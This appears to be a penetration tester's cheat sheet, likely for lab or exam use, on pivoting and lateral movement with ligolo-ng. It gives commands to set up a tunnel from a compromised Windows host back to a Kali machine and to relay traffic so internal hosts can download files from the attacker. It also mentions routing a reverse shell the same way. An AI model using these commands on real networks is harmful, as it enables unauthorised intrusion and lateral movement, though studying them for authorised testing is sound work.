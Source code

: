 ALWAYS USE THIS METHOD FIRST TO LATERAL MOVEMENT
## Before starting
Transfer the following files:
If target is Windows, agent.exe
If target is linux, agent

## How to Setup
```
On Kali,
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add [whatever subnet you want] dev ligolo

Reuse ip route if there are more

Start the proxy with ./proxy -selfcert

On Windows,
.\agent.exe -connect $kaliip:11601 -ignore-cert

Go back to Kali,
session
select the session number 
start
```

## Local Port Forwarding with Ligolo
https://medium.com/@Thigh_GoD/ligolo-ng-finally-adds-local-port-forwarding-5bf9b19609f9
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 240.0.0.1/32 dev ligolo
```

## Take note when trying to access from internal to kali
Mindset : Let's say you want to download a file from your KALI like usual where you opened this -> 
python3 -m http.server 80
  !
You have opened server on 192.168.45.203:80   , but MS02 ONLY reaches MS01 , so you need to port forward . 
To make thing simple for myself I added a listener that does this port forwarding MS:80 to KALI:80 , looks like  this on session 1 (where MS01 is connected)-> 
```
listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp
```

How to reach Kali IP now to download something? On MS02 a command like this -> wget MS01:80 , and will redirect to KALI:80 .. 
In your care (just as an example, don't take it blindly copy paste),
```
powershell wget http://10.10.123.148:80/test
```

And that's it .. 

SAME goes for let's say a reverse shell .. add a new listener but with port 443 for example , and so on! 

